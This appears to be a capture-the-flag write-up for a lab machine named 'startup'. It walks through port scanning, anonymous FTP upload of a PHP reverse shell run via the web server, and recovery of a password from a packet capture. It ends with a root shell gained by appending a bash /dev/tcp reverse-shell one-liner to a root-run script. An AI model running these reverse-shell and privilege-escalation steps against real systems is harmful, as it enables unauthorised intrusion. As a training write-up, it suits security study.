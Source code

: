 IP `10.10.241.74`
&nbsp;
&nbsp;

1. First of all and as always we run nmap:
```
──(kali㉿kali)-[~]
└─$ nmap -Pn -A -T4 10.10.241.74
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-10 13:53 EST
Warning: 10.10.241.74 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.241.74
Host is up (0.20s latency).
Not shown: 994 closed ports
PORT      STATE    SERVICE        VERSION
21/tcp    open     ftp            vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12 04:53 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12 04:02 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12 04:53 notice.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.6.46.150
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open     ssh            OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
80/tcp    open     http           Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
900/tcp   filtered omginitialrefs
5906/tcp  filtered unknown
11110/tcp filtered sgi-soap
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.73 seconds
                                                                     
```

These ports are open:
```
21
22
80
900
5906
1111
```


2. Secondly, it is always good to run gobuster to get a list of directories available and also check `/robots.txt` 

 ```
 gobuster dir -u http://10.10.241.74 -w /usr/share/wordlists/dirb/common.txt ===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.241.74
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/01/10 13:52:52 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/files (Status: 301)
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2021/01/10 13:54:58 Finished
===============================================================
```

It seems that there is a directory `/files` however, after a quick look there is nothing helpful there. These are files visible from ftp, so we will benefir from it in next point.
                                                                       


3. We come back to ftp port.

We login as `Anonymous` and tap enter while prompted for password. Command `dir` shows available files (with no useful informations) but there is also `ftp` directory where anonymous user has writing permission.

In this case we will try to get a shell with netcat and reverse php:

- we save pentest monkey's  (or a one liner) reverse shell script as `shell.php`
- run netcat in separate terminal `sudo nc -lvnp 4444`
- upload `shell.php` to ftp directory with `put shell.php`
- open `http://10.10.241.74/files/ftp/shell.php` in a browser, click on it and get shell as `www-data`

There is a file called recipe.txt, so quick `cat` to answer first question:

ww-data@startup:/$ cat recipe.txt
cat recipe.txt
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was XXXX


4. Indicents directory

Besides `recipe.txt` there is a directory named `incidents`

```
www-data@startup:/$ ls -lah
ls -lah
total 100K
drwxr-xr-x  25 root     root     4.0K Jan 10 18:52 .
drwxr-xr-x  25 root     root     4.0K Jan 10 18:52 ..
drwxr-xr-x   2 root     root     4.0K Sep 25 08:12 bin
drwxr-xr-x   3 root     root     4.0K Sep 25 08:12 boot
drwxr-xr-x  16 root     root     3.5K Jan 10 18:51 dev
drwxr-xr-x  96 root     root     4.0K Nov 12 05:08 etc
drwxr-xr-x   3 root     root     4.0K Nov 12 04:53 home
drwxr-xr-x   2 www-data www-data 4.0K Nov 12 04:53 incidents
lrwxrwxrwx   1 root     root       33 Sep 25 08:12 initrd.img -> boot/initrd.img-4.4.0-190-generic
lrwxrwxrwx   1 root     root       33 Sep 25 08:12 initrd.img.old -> boot/initrd.img-4.4.0-190-generic
drwxr-xr-x  22 root     root     4.0K Sep 25 08:22 lib
drwxr-xr-x   2 root     root     4.0K Sep 25 08:10 lib64
drwx------   2 root     root      16K Sep 25 08:12 lost+found
drwxr-xr-x   2 root     root     4.0K Sep 25 08:09 media
drwxr-xr-x   2 root     root     4.0K Sep 25 08:09 mnt
drwxr-xr-x   2 root     root     4.0K Sep 25 08:09 opt
dr-xr-xr-x 128 root     root        0 Jan 10 18:51 proc
-rw-r--r--   1 www-data www-data  136 Nov 12 04:53 recipe.txt
drwx------   4 root     root     4.0K Nov 12 04:54 root
drwxr-xr-x  25 root     root      920 Jan 10 19:13 run
drwxr-xr-x   2 root     root     4.0K Sep 25 08:22 sbin
drwxr-xr-x   2 root     root     4.0K Nov 12 04:50 snap
drwxr-xr-x   3 root     root     4.0K Nov 12 04:52 srv
dr-xr-xr-x  13 root     root        0 Jan 10 19:19 sys
drwxrwxrwt   7 root     root     4.0K Jan 10 19:23 tmp
drwxr-xr-x  10 root     root     4.0K Sep 25 08:09 usr
drwxr-xr-x   2 root     root     4.0K Nov 12 04:50 vagrant
drwxr-xr-x  14 root     root     4.0K Nov 12 04:52 var
lrwxrwxrwx   1 root     root       30 Sep 25 08:12 vmlinuz -> boot/vmlinuz-4.4.0-190-generic
lrwxrwxrwx   1 root     root       30 Sep 25 08:12 vmlinuz.old -> boot/vmlinuz-4.4.0-190-generic
www-data@startup:/$ 
```

and `suspicious.pcapng` file which looks like wireshark's packet file but do not get confused :)

```
www-data@startup:/incidents$ ls -lah
ls -lah
total 40K
drwxr-xr-x  2 www-data www-data 4.0K Nov 12 04:53 .
drwxr-xr-x 25 root     root     4.0K Jan 10 18:52 ..
-rwxr-xr-x  1 www-data www-data  31K Nov 12 04:53 suspicious.pcapng
```

5. Investigating the file.

I quickly run a python http server `python3 -m http.server` and downloade a file to my local machine, as there is no `strings` command installed on a box.

Here is what we have:

```
$ strings suspicious.pcapng              

Qcd lennie
cd lennie
bash: cd: lennie: Permission denied
www-data@startup:/home$ 
lennie
www-data@startup:/home$ 
cd lennie
cd lennie
bash: cd: lennie: Permission denied
www-data@startup:/home$ |
.?:MD
sudo -l
sudo -l
[sudo] password for www-data: 
c4nXXXXXXXXXc3
6%	@
Sorry, try again.
[sudo] password for www-data: 
^/Sorry, try again.
[sudo] password for www-data: 
c4nXXXXXXXXXc3
sudo: 3 incorrect password attempts
www-data@startup:/home$ |
```

A giant file with some logs. Once we have a deeper look at it, among  different commands there is a username `lennie` and passswordlike word, which in the end turns out to ba that user's pass (it is very illogic for me)


6. Enumaration while logged as `lennie`

I run `linpeas.sh` in order to get some useful informations, however did not find anything. 

Our user `lennie` has permissions to run `/etc/print.sh` script so by appending a reverse shell onliner and running netcat, there is a chance to get another shell as root.

I type `echo "bash -i &>/dev/tcp/$MYIP/$NCPORT <&1" >> /etc/print.sh`

wait a little and bingo:

```
lennie@startup:~$ echo "bash -i &>/dev/tcp/10.6.46.150/4444 <&1" >> /etc/print.s 
lennie@startup:~$ cat /etc/print.sh
#!/bin/bash
echo "Done!"
bash -i &>/dev/tcp/10.6.46.150/4444 <&1
lennie@startup:~$ 


──(kali㉿kali)-[~]
└─$ sudo nc -lvnp 4444
[sudo] password for kali: 
listening on [any] 4444 ...
connect to [10.6.46.150] from (UNKNOWN) [10.10.212.41] 54316
bash: cannot set terminal process group (1402): Inappropriate ioctl for device
bash: no job control in this shell
root@startup:~# ls -la
ls -la
total 28
drwx------  4 root root 4096 Nov 12 04:54 .
drwxr-xr-x 25 root root 4096 Jan 10 20:23 ..
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwxr-xr-x  2 root root 4096 Nov 12 04:54 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   38 Nov 12 04:53 root.txt
drwx------  2 root root 4096 Nov 12 04:50 .ssh
root@startup:~# cat root.txt
cat root.txt
THM{f963XXXXXXXXXXXXXXXXXXXXXXXX6d}
root@startup:~# 
```
